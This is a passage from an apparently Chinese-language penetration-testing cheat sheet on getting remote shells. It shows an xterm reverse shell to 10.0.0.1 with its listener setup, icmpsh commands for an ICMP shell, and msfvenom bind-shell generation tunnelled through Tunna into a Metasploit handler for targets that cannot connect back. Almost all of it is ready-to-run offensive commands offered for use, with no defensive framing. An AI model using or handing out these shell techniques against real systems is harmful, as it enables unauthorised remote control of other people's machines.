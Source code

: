 [汇编反向shell](https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/)

## Xterm

最简单的反向shell是xterm 会话，气将通过TCP的6001端口反向连接10.0.0.1：

```bash
xterm -display 10.0.0.1:1
```

要捕获传入的xtrem，就启动`X-Server`(:1监听6001的TCP端口)，另外就是可以通过Xnest监听

```bash
Xnest :1
```


```bash
xhost +targetip
```

# icmp-shell

见[icmpsh](https://github.com/inquisb/icmpsh)

kali：

```bash
./run.sh
```

target:

```bash
icmpsh.exe -t kali_ip -d 500 -b 30 -s 128
```

# tunna+kali_bind

见[Shell反弹不出来怎么办呢？](http://www.91ri.org/11722.html)

本机kali不是外网或者目标在dmz里面反弹不出shell，可以通过这种直连shell然后再通过http的端口转发到本地的metasploit

0x01 在kali上生成一个bind_shell:

```bash
msfvenom -p windows/x64/shell/bind_tcp LPORT=12345 -f exe -o ./shell.exe
```

0x02 在kali上使用tunna转发：

```bash
python proxy.py -u http://test.com/conn.jsp  -l 1111 -r 12345 v
```

0x03 使用kali连接bind_shell:

```bash
use exploit/multi/handler
set payload windows/x64/shell/bind_tcp
set LPORT 1111
set RHOST 127.0.0.1
```

